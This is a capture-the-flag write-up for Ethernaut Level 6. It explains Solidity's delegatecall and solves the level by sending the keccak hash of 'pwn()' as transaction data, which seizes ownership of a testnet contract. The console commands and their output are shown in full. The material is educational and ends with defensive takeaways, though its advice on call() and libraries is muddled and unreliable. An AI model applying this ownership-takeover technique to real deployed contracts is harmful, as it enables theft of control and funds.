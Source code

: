 # Ethernaut Level 6: Delegation Challenge Explained

## What is Delegatecall?

Delegatecall is a low-level function call in Ethereum that allows a contract to invoke functions from another contract while preserving its own context. This means that the calling contract's storage and its `msg.sender`, `msg.value` attributes remain the same even when a function from another contract is invoked.

```solidity
contract A {
    function callDelegate(address delegateAddress, bytes memory data) public {
        delegateAddress.delegatecall(data);
    }
}
```

## How does Delegatecall work?

When Contract A makes a delegatecall to Contract B, it allows Contract B to mutate its storage. This can lead to unintended consequences if Contract B is malicious or if the storage context is unsafe.

```solidity
contract B {
    uint public storageValue;

    function setStorageValue(uint newValue) public {
        storageValue = newValue;
    }
}
```

## The Challenge

In this challenge, you are required to claim ownership of the given instance. The Delegation contract makes a delegatecall to the Delegate contract. The Delegate contract has a function called `pwn()`, which changes the ownership of an `owner` variable to whoever invoked the function. Your task is to invoke this function and become the owner of the contract.

```solidity
contract Delegate {
    address public owner; // Occupies slot 0

    function pwn() public {
        owner = msg.sender; // Save msg.sender to slot 0
    }
}
```

## How to solve the challenge?

You can invoke the `pwn()` function by sending data in a transaction. This can be done using the Remix IDE or the console. Once you successfully invoke the function, you become the owner of the contract.

```javascript
// => Instance address0x2Ac4376062CaC9089D355586D92dF23004FFA43B
// await contract.owner()
// '0xF781b45d11A37c51aabBa1197B61e6397aDf1f78'
// var pwn_signature = web3.utils.keccak256("pwn()");
// undefined
// contract.sendTransaction({data: pwn_signature})
// Promise {<pending>, _events: i, emit: ƒ, on: ƒ, …}
// 31a04b09021a361c108742307a4879ae8b0d945b.js:1 ⛏️ Sent transaction ⛏ https://goerli.etherscan.io/tx/0x22ea068378b441303a98b3cda6cb13ae1140e8ca9236fa268c448ca7d93099bc
// 31a04b09021a361c108742307a4879ae8b0d945b.js:1 ⛏️ Mined transaction ⛏ https://goerli.etherscan.io/tx/0x22ea068378b441303a98b3cda6cb13ae1140e8ca9236fa268c448ca7d93099bc
// await contract.owner()
// '0x73103E2C30b52Ac77C138Dc4e3Af42D800DA468F'
```

## Key Takeaways

It's important to use the higher-level `call()` function when inheriting from libraries, especially when you don't need to change contract storage and do not care about gas control. Also, when inheriting from a library intending to alter your contract’s storage, make sure to line up your storage slots with the library’s storage slots to avoid these edge cases. Always authenticate and do conditional checks on functions that invoke delegatecalls.

This challenge is a great way to understand the potential vulnerabilities associated with delegatecalls, which was a core issue in the $30M Parity hack.

